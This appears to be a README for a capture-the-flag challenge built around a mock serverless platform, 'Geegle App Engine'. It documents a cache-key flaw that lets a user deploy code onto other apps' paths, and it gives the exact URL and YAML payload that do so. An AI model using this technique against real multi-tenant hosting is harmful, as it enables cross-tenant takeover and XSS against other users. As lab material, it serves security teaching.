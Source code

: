 # gae (Geegle App Engine)

Like Amazon Lambda. Deploy your website without worrying about VM/containers.

To use this infra, you only need to submit short pieces of code for python functions, see the following example.

The environment is sandboxed.

**Feel free to write other services using this infra**

## How-To

Example deploy:
```
---
---
urls:
  "/": |-
    gae_rsp = gaeutils.make_response("Hello World")
  "/ping": |-
    gae_rsp = gaeutils.make_response("Pong")
  "/add": |-
    num_a = int(request.args.get("a"))
    num_b = int(request.args.get("b"))
    gae_rsp = gaeutils.make_response("Answer is " + str(num_a + num_b))
  "/error": |-
    gae_rsp = gaeutils.errorpage("Oops our server has fallen asleep")
  "/redirect": |-
    gae_rsp = gaeutils.redirect("https://www.adamyi.com/")
  "/json": |-
    gae_rsp = gaeutils.make_response(gaeutils.json_encode({"json": "is_easy"}))
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request['path'], code=404)
```

## Vulnerability

Could deploy functions to any domains due to wrong caching rules.

**Please test if there are any other unintended vulns (user authentication is yet to add, main focus: bypass sandbox, DoS)**

**Normal User**
Domain: example
Path: helloworld

Cache Key: example.apps.geegle.org/helloworld

**Hacker**
Domain: example.apps.geegle.org/haha
Path: lmao

Cache Key: example.apps.geegle.org/haha.apps.geegle.org/lmao

**This would make XSS possible on all GAE apps**

## Payload

Visit http://manage.apps.geegle.org:8056/edit?app=test1.apps.geegle.org:8056/haha

```
---
urls:
  "/test": |-
    gae_rsp = gaeutils.make_response("hacked")
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request['path'], code=404)
```

http://test1.apps.geegle.org:8056/haha.apps.geegle.org:8056/test becomes hacked

## author
adamyi
